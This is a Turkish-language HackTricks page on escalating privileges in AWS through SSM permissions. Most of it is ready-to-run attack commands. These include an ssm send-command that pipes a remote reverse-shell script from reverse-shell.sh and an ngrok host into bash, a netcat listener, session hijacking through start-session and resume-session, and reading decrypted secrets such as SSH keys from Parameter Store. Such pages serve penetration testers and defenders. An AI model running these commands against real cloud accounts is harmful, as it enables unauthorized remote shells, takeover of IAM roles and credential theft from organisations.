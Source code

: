 # AWS - SSM Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SSM

SSM hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** iznine sahip bir saldırgan, **Amazon SSM Agent'ı çalıştıran örneklerde komutlar çalıştırabilir** ve **içinde çalışan IAM Rolünü tehlikeye atabilir.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Eğer bu tekniği zaten ele geçirilmiş bir EC2 örneği içinde ayrıcalıkları artırmak için kullanıyorsanız, rev shell'i yerel olarak şu şekilde yakalayabilirsiniz:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Olası Etki:** SSM Agent'ları çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme.

### `ssm:StartSession`

**`ssm:StartSession`** iznine sahip bir saldırgan, **Amazon SSM Agent'ı çalışan örneklerde SSH benzeri bir oturum başlatabilir** ve **içinde çalışan IAM Rolünü tehlikeye atabilir.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Bir oturum başlatmak için **SessionManagerPlugin**'in kurulu olması gerekir: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Olası Etki:** SSM Agent'ları çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme.

#### ECS'ye Yetki Yükseltme

**ECS görevleri** **`ExecuteCommand` etkinleştirildiğinde** yeterli izinlere sahip kullanıcılar `ecs execute-command` kullanarak **bir komut çalıştırabilirler** konteyner içinde.\
[**belgelere**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) göre bu, “_exec_“ komutunu başlatmak için kullandığınız cihaz ile hedef konteyner arasında güvenli bir kanal oluşturarak yapılır. (Bunun çalışması için SSM Session Manager Plugin gereklidir)\
Bu nedenle, `ssm:StartSession` iznine sahip kullanıcılar, bu seçenek etkinleştirildiğinde **ECS görevleri içinde bir shell alabileceklerdir** sadece şunu çalıştırarak:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potansiyel Etki:** `ExecuteCommand` etkin olan çalışan görevlere bağlı `ECS` IAM rollerine doğrudan yetki yükseltme.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** iznine sahip bir saldırgan, Amazon SSM Agent'ı çalıştıran örneklerde **bağlantısı kesilmiş** SSM oturum durumu ile bir SSH benzeri oturumu yeniden **başlatabilir** ve içindeki IAM Rolünü **tehdit edebilir**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potansiyel Etki:** Çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme ve SSM Ajansı çalışan ve bağlantısı kesilmiş oturumlar.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Belirtilen izinlere sahip bir saldırgan, **SSM parametrelerini** listeleyebilecek ve **açık metin olarak okuyabilecektir**. Bu parametrelerde sıklıkla **hassas bilgiler** bulabilirsiniz, örneğin SSH anahtarları veya API anahtarları.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Olası Etki:** Parametreler içinde hassas bilgileri bulma.

### `ssm:ListCommands`

Bu izne sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve umarım bunlar üzerinde **hassas bilgileri** bulabilir.
```
aws ssm list-commands
```
**Olası Etki:** Komut satırlarında hassas bilgileri bulmak.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Bu izinlere sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve **çıktıyı okuyabilir**, umarım üzerinde **hassas bilgiler** bulabilir.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potansiyel Etki:** Komut satırlarının çıktısında hassas bilgileri bulmak.

### Codebuild

Ayrıca, SSM'yi kullanarak inşa edilen bir codebuild projesine girebilirsiniz:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
